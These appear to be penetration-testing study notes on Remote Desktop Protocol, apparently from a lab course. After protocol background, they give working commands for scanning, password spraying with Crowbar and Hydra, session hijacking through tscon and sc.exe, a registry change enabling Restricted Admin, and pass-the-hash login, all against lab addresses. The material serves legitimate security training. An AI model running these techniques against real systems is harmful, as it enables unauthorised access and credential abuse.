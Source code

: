 # Remote Desktop Protocol (RDP)

The Remote Desktop Protocol (RDP) is a protocol developed by Microsoft to enable remote access to computers running the Windows operating system. It allows the transmission of display and control commands via an encrypted GUI over IP networks. RDP operates at the application layer of the TCP/IP reference model and typically uses TCP port 3389 as its transport protocol. Additionally, the connectionless UDP protocol can also use port 3389 for remote administration.

## Establishing an RDP Session

For an RDP session to be established, both the network firewall and the server's firewall must permit external connections. If Network Address Translation (NAT) is used between the client and server, as is often the case with Internet connections, the remote computer must have the public IP address to reach the server. Port forwarding must also be configured on the NAT router towards the server.

## Security and Encryption

Since Windows Vista, RDP has supported Transport Layer Security (TLS/SSL), ensuring that all data, particularly during the login process, is well-protected by encryption. However, many Windows systems do not enforce this and still accept weaker encryption via RDP Security. Even with RDP Security, an attacker is not entirely locked out, as the identity-providing certificates are often self-signed by default. This means the client cannot distinguish between a genuine and a forged certificate, leading to a certificate warning for the user.

## Default Installation and Configuration

The Remote Desktop service is installed by default on Windows servers and does not require any additional external applications. This service can be activated through the Server Manager and is configured by default to allow connections only from hosts with Network Level Authentication (NLA).

# Footprinting 

#### Nmap
```shell-session
$ nmap -sV -sC 10.129.201.248 -p3389 --script rdp*
```

In addition, we can use `--packet-trace` to track individual packets and manually inspect their contents. This allows us to observe the RDP cookies (mstshash=nmap) used by Nmap to interact with the RDP server. However, it's important to note that threat hunters and various security services, such as Endpoint Detection and Response (EDR), can identify these cookies. Consequently, this could lead to penetration testers being locked out on hardened networks.

```shell-session
$ nmap -sV -sC 10.129.201.248 -p3389 --packet-trace --disable-arp-ping -n
```

#### RDP Security Check - Installation
```shell-session
$ sudo cpan
```

#### RDP Security Check
```shell-session
$ git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
$ ./rdp-sec-check.pl 10.129.201.248
```

Authentication and connection to such RDP servers can be made in several ways. For example, we can connect to RDP servers on Linux using `xfreerdp`, `rdesktop`, or `Remmina` and interact with the GUI of the server accordingly.

#### Initiate an RDP Session
```shell-session
$ xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248
```
```shell-session
# rdesktop -u admin -p password123 192.168.2.143
```
#### Crowbar - RDP Password Spraying
```shell-session
# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
#### Hydra - RDP Password Spraying
```shell-session
# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
#### RDP Session Hijacking
```cmd-session
C:\htb> query user
```
```cmd-session
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```
```cmd-session
C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```
```cmd-session
C:\htb> net start sessionhijack
```
## RDP Pass-the-Hash (PtH)
#### Adding the DisableRestrictedAdmin Registry Key
```cmd-session
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
Once is enabled:
```shell-session
# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```